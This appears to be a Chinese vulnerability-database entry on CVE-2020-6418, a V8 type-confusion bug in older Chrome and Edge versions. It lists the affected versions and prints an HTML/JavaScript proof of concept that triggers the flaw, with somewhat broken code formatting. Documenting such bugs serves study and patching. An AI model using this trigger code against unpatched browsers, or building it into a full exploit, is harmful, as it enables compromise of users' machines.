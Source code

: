 ```yaml
---
title: "（CVE-2020-6418）Chrome 远程代码执行漏洞"
id: zhfly2961
---
```


# （CVE-2020-6418）Chrome 远程代码执行漏洞

## 一、漏洞简介

在Google Chrome浏览器80.0.3987.122以下与Microsoft Edge浏览器80.0.361.62以下的版本中，开源JavaScript和WebAssembly引擎V8中存在一个类型混淆漏洞（CVE-2020-6418），可能导致攻击者非法访问数据，从而执行恶意代码。

## 二、漏洞影响

Google Chrome浏览器80.0.3987.122以下与Microsoft Edge浏览器80.0.361.62以下的版本中

## 三、复现过程

### poc

```
<!DOCTYPE html>
<head>
    <script>
        ITERATIONS = 10000
        TRIGGER = false

```
 function f(a,p){
        return a.pop(Reflect.construct(function(){}, arguments, p))
    }

    let a;
    let p = new Proxy(Object, {
        get: function(){
            if (TRIGGER){
                a[2] = 1.1;
            }
            return Object.prototype;
        }
    });
    for(let i = 0; i &lt; ITERATIONS; i++){
        let isLastIteration = i==ITERATIONS-1;
        a = [0,1,2,3,4];
        if(isLastIteration)
            TRIGGER = true;
        console.log(f(a,p));
    }
    console.log(a)
&lt;/script&gt; 
``` `</head>

<body>

CVE-2020-6418 PoC!

</body>` 
```

## 参考链接

> https://github.com/ChoKyuWon/CVE-2020-6418/blob/master/poc.html